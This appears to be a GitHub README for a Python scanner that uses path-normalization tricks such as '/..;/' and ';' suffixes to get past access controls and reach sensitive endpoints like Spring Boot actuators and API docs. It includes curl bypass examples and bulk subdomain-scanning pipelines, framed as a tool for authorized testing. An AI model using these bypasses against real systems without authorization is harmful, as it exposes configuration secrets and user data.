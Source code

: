 [中文版](https://xz.aliyun.com/t/12530)

# endpoints_explore
Endpoints Explorer is a Python script that employs multiple bypass rules to discover sensitive endpoints

## Overview
This script uses the aiohttp library to make asynchronous HTTP requests and scans the endpoints for sensitive information in a highly concurrent manner. The script attempts multiple bypass rules and returns as soon as sensitive information is found.

### Background
![app](https://github.com/wzqs/endpoints_explore/assets/71961807/a04e23a9-391b-48d7-9a6d-49fcc00a877f)

Users access through the app or browser, and the requests may pass through a CDN to a reverse proxy/load balancer. Based on the configuration, the request traffic is forwarded and routed to an API gateway, which then distributes the requests to various application services for processing.

In the backend architecture, each component completes its respective tasks by identifying the URI. If there are any parsing differences or conflicts between any of these components, it can lead to permission bypass vulnerabilities. Common situations include:

- Incompatibilities or conflicts between Tomcat/Jetty and servlet-based filter interceptors.
- Permission verification component and framework handling discrepancies leading to bypass.
- Nginx and Tomcat/Jetty conflicts.
- Improper Nginx configuration.
- Inadequate permission verification.


### Some Cases

```
# Status: 404 Not Found  OR  200
curl "https://127.0.0.1"

# Status: 404 Not Found OR 403 Forbidden
curl "https://127.0.0.1/actuator/env"

# Status: 404 Not Found
curl "https://127.0.0.1/v2/api-docs"

# Status: 404 Not Found
curl "https://127.0.0.1/nothing/actuator/env"
```

when discover the valid path /api/

```
# Status: 403 Forbidden
curl "https://127.0.0.1/api/actuator/env"

# Status: 404
curl "https://127.0.0.1/api/v2/api-docs"

# Status: 403
curl "https://127.0.0.1/api/users/query"

Response: {"message": "forbidden"}
```

to use some characters to bypass ACL

```
# Success
curl "https://127.0.0.1/api/..;/actuator;aaaa/env;.js"

# Success
curl "https://127.0.0.1/api/..;/v2/api-docs"

# Success
curl "https://127.0.0.1//api;/users/query"

Response: {"code":200,"status":0,"message":"SUCCESS","data":[{"users":"...
```


### Recommended Reading:

- https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf
- https://xz.aliyun.com/t/7544
- https://tttang.com/archive/1592/
- https://joychou.org/web/security-of-getRequestURI.html



## Features
- Tests with bypass rules(`/..;/`,`/;/`,`/;js/`,`/../`,`(double)urlencode` etc.)
- Performs highly concurrent scanning with asynchronous HTTP requests
- Supports checking if paths exist before scanning
- Filtered output for similar content


## Usage
First, you need to install the Python libraries that this script depends on, which can be installed with the following command:
```
pip install aiohttp asyncio colorama
```

Then, you can run this script with command-line arguments. Here is the basic usage of the script:
```
python3 endpoints_explorer.py <base_url> <normal_paths_dict> <sensitive_files_dict> [-c <concurrency>] [-v] [-e]
```
Here is a detailed explanation of the parameters:

- base_url: The base URL to scan.
- normal_paths_dict: The path to the normal paths dictionary.
- sensitive_files_dict: The path to the sensitive files dictionary.
- -c, --concurrency: The concurrency level, default is 5.
- -v, --verbose: Enable verbose output.
- -e, --check-existence: Check if the paths exist before scanning.

example:

```
$ cat sensitive_files_dict.txt

/actuator/env
/env
```
It's worth noting that the normal_paths_dict can be collected from active or passive crawling methods. This largely depends on the capabilities of your crawling tools and is not covered by the functionality of this script.

```
$ cat normal_paths_dict.txt

/api/
/manage/
```
screenshot:

![image](https://github.com/wzqs/endpoints_explore/assets/71961807/3556e555-18fd-4c5d-959c-fa7ab679f833)


### Tips
Although the script does not directly support multi-URL scanning, you can use it in conjunction with other security tools.

- Bulk scanning for sensitive information on live URLs
```
cat urls_list.txt | httpx -silent | parallel -j 50 -- python3 endpoints_explorer.py {} normal_paths_dict.txt sensitive_files_dict.txt -c 50 -e
```
- Automatically scan for sensitive information on live subdomains
```
subfinder -d example.com -silent | httpx -silent | xargs -I {} python3 endpoints_explorer.py {} normal_paths_dict.txt sensitive_files_dict.txt -c 50 -e
```

In a sense, this script serves as a permission bypass tool. 

### Notes

Please note that while the code has been thoroughly tested, there may be potential bugs and inaccuracies. The path existence checks are not foolproof and the scanning speed is influenced by factors like your own system, the target server, and network conditions. Be aware that high concurrency might impact the server's performance. Always ensure that you have proper authorization before initiating any scans to avoid legal or ethical issues. Use responsibly.

### TODO
- add more headers to requests to bypass rules
- generate the normal_paths_dict rules based on the domain


## Disclaimer
This script is intended only for lawful, authorized security testing activities and must not be used for any illegal activities. Users are responsible for all consequences of using this script.

## Thanks

- [chatgpt](https://chat.openai.com/)
- https://github.com/ldbfpiaoran/springboot-acl-bypass
- https://github.com/projectdiscovery/pdtm
